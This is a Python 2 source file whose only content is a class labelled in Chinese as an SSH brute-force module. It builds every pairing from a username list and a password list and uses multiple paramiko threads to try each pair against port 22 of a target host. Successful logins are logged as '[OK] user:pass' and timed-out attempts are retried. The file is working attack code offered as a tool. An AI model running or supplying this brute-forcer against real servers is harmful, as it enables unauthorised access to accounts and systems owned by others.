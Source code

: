 #################SSH爆破模块#################
class SshBruter(CommonFun):
    """docstring for SshBruter"""
    def __init__(self, *args):
        super(SshBruter, self).__init__()
        (options,arg) = args
        self.host = options.host
        self.userfile = options.userfile
        self.passfile = options.passfile
        self.threadnum = options.threadnum
        self.timeout = options.timeout
        self.result = []
        self.set_log(self.host)
        self.qlist = Queue.Queue()
        self.is_exit = False
        print self.host,self.userfile,self.passfile,self.threadnum

    def get_queue(self):
        with open(self.userfile, 'r') as f:
            ulines = f.readlines()
        with open(self.passfile, 'r') as f:
            plines = f.readlines()

        for name in ulines:
            for pwd in plines:
                name = name.strip()
                pwd = pwd.strip()
                self.qlist.put(name + ':' + pwd)

    def thread(self):        
        while not self.qlist.empty():
            if not self.is_exit:
                name,pwd = self.qlist.get().split(':')
                try:
                    ssh = paramiko.SSHClient()
                    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
                    ssh.connect(hostname=self.host,port=22,username=name,password=pwd,timeout=self.timeout)
                    time.sleep(0.05)
                    ssh.close()
                    s = "[OK] %s:%s" % (name,pwd)
                    self.show_log(self.host,s)
                    self.result.append(s)
                except socket.timeout:
                    self.show_log(self.host,"Timeout...")
                    self.qlist.put(name + ':' + pwd)
                    time.sleep(3)
                except Exception, e:
                    error = "[Error] %s:%s" % (name,pwd)
                    self.show_log(self.host,error)
                    pass
            else:
                break
